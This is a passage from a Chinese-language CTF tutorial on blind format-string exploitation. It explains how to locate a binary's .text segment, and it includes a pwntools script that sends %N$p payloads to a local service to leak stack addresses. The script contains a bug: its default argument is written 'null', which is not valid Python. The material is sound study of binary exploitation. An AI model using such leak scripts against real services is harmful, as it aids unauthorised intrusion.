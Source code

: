 [![](assets/1701612281-206fee67a3cc80e469b16f10daf9cbbe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224058-1bef5e30-2579-1.png)

可以对比一下我们给出的源代码，因为是盲打，不会有函数的名称，可以根据传入参数进行判断函数名称，比如 sub\_8048490 就是 printf 。

###### 方法二：**从.text段开始**

先用 %p 泄露出栈上数据，找到两个相同地址，而且这个地址很靠近程序加载初地址（32位：0x8048000；64位：0x400000）。

load.py

```plain
from pwn import *
import sys

p = remote('127.0.0.1',11112)

p.recv()
p.sendline('nameaaa')
p.recv()

def where_is_start(ret_index=null):
    return_addr=0
    for i in range(400):
        payload = '%%%d$p.TMP' % (i)
        p.sendline(payload)
        p.recvuntil('right:')
        val = p.recvuntil('.TMP')
        log.info(str(i*4)+' '+val.strip().ljust(10))
        if(i*4==ret_index):
            return_addr=int(val.strip('.TMP').ljust(10)[2:],16)
            return return_addr
        p.recvrepeat(0.2)

start_addr=where_is_start()
```
